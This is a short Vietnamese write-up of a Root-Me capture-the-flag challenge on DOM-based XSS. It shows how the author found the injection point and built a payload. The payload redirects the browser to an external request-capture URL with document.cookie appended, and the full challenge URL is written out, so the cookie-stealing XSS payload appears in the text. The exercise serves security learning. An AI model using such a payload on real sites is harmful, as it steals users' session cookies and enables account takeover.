 # [XSS DOM Based - Introduction](https://www.root-me.org/en/Challenges/Web-Client/XSS-DOM-Based-Introduction)

Sau khi thử submit, thì ta có thể xem được script của website:

![](./media/image1.png)

Lúc này, tham số number sẽ đảm nhận nhận input. Ta thử kiểm tra XSS ở ô này bằng payload `‘;alert(1)//` thì thấy thành công:

![](./media/image2.png)

Ta sẽ dùng document.location để redirect website đến HTTP Request và payload để DOM based XSS như sau (ta dùng RequestBin tạo từ https://requestbin.in): `';document.location=%27https://eol9dtzbk9673pb.m.pipedream.net/?cookies=%27%2bdocument.cookie;//`

![](./media/image3.png)

Website đã chuyển hướng thành công, giờ ta sẽ thực hiện POST lên bằng form bên tag contact:

![](./media/image4.png)

Ta thực hiện điền payload bên dưới đến POST lên và đợi cookie được trả về tại RequestBin:

<http://challenge01.root-me.org/web-client/ch32/?number=%27;document.location=%27https://eol9dtzbk9673pb.m.pipedream.net/?cookies=%27%2bdocument.cookie//>

![](./media/image5.png)

- Flag: "****************************"
